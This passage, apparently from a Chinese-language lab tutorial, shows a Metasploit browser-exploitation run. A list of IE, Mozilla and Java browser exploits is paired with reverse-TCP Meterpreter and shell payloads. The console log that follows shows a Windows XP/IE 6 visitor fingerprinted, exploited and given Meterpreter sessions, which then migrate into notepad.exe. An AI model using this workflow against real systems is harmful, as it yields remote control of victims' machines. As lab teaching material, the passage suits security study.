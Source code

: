 ```
  16  Exploit: windows/browser/ie_execcommand_uaf                windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  17  Exploit: windows/browser/mozilla_nstreerange               windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  18  Exploit: windows/browser/ms13_080_cdisplaypointer          windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  19  Exploit: windows/browser/ms13_090_cardspacesigninhelper    windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  20  Exploit: windows/browser/msxml_get_definition_code_exec    windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  21  Exploit: multi/handler                                     windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  22  Exploit: multi/handler                                     generic/shell_reverse_tcp        tcp://172.16.56.1:6666
  23  Exploit: multi/handler                                     java/meterpreter/reverse_tcp     tcp://172.16.56.1:7777
```

感觉还是蛮壮观的。下面我们用IE 6去访问`http://172.16.56.1:8080`：

```bash
[*] Handling '/'
[*] Handling '/?sessid=V2luZG93cyBYUDp1bmRlZmluZWQ6dW5kZWZpbmVkOnVuZGVmaW5lZDpTUDA6emgtY246eDg2Ok1TSUU6Ni4wOg%3d%3d'
[*] JavaScript Report: Windows XP:undefined:undefined:undefined:SP0:zh-cn:x86:MSIE:6.0:
[*] Reporting: {"os.product"=>"Windows XP", "os.version"=>"SP0", "os.language"=>"zh-cn", "os.arch"=>"x86", "os.certainty"=>"0.7"}
[*] Responding with 14 exploits
# ...
[*] 172.16.56.152    ie_createobject - Sending exploit HTML...
[*] 172.16.56.152    java_atomicreferencearray - Sending Java AtomicReferenceArray Type Violation Vulnerability
# ...
[*] 172.16.56.152    java_verifier_field_access - Generated jar to drop (5308 bytes).
[*] 172.16.56.152    ie_createobject - Sending EXE payload
[*] Sending stage (179779 bytes) to 172.16.56.152
[*] Meterpreter session 1 opened (172.16.56.1:3333 -> 172.16.56.152:1124) at 2018-10-30 12:48:34 +0800
# ...
[*] Meterpreter session 2 opened (172.16.56.1:3333 -> 172.16.56.152:1126) at 2018-10-30 12:48:34 +0800
[*] Session ID 1 (172.16.56.1:3333 -> 172.16.56.152:1124) processing InitialAutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Session ID 2 (172.16.56.1:3333 -> 172.16.56.152:1126) processing InitialAutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: iuxWclhTGmmDzKjeaH.exe (540)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 956
[*] Current server process: GAasDKFKpT.exe (1488)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 1600
[+] Successfully migrated to process
[+] Successfully migrated to process
```
